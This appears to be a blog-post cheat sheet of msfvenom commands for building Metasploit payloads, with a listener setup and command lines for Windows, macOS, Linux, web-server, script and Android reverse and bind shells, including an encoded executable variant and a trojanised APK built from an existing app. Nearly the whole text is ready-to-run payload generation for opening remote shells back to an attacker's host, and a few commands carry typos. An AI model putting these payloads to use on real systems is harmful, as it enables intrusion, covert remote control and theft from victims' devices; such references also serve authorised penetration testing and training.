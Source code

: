```yaml
---
published: true
title: MsfVenom Payload Cheat Sheet
category: Cheatsheet
image: 'https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/metasploit.jpg'
author: F3dai
---
```

MSFvenom Payload Creator (MSFPC) is a user-friendly multiple payload generator that can be used to generate Metasploit payloads based on user-selected options. MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. msfvenom replaced both msfpayload and msfencode as of June 8th, 2015.

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

### Metasploit Payload Listener

<pre>msfconsole
use exploit/multi/handler
set [payload-name]
set [ip-address]
set [port]
Run</pre>

### Windows Payloads

Windows Meterpreter Reverse Shell: 

<pre>msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe</pre>

Windows Reverse Shell:

<pre>msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe</pre>

Windows Encoded Meterpreter Reverse Shell:

<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe</pre>

Windows Meterpreter Reverse Shellcode

<pre>msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f &lt platform </pre>

### MacOS Payloads

macOS Bind Shell:

<pre>msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho</pre>

macOS Reverse Shell:

<pre>msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho</pre>

macOS Reverse TCP Shellcode:

<pre>msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f &lt platform </pre>

### Linux Payloads

Linux Meterpreter TCP Reverse Shell:

<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Bind TCP Shell:

<pre>msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Bind Meterpreter TCP Shell:

<pre> msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf</pre>

Linux Meterpreter Reverse Shellcode:

<pre> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f &lt; platform </pre>

### Web-based Payloads

PHP Meterpreter Reverse Shell:

<pre> msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php</pre>

JSP Java Meterpreter Reverse Shell:

 <pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp</pre>

ASP Meterpreter Reverse Shell:

<pre> msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp</pre>

WAR Reverse TCP Shell:

 <pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war</pre>

### Script-Based Payloads

Perl Unix Reverse shell:

<pre> msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl</pre>

Bash Unix Reverse Shell:

 <pre>msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh</pre>

Python Reverse Shell:

 <pre>msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py</pre>

### Android Payloads

Android Meterpreter reverse Payload:

<pre>msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk</pre>

Android Embed Meterpreter Payload:

<pre>msfvenom -x &lt;app.apk> android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk</pre>

[**Msf-Venom Payload Cheat Sheet | Meterpreter Payload Cheat Sheet**](/cheatsheet/MsfVenom-Payloads/)
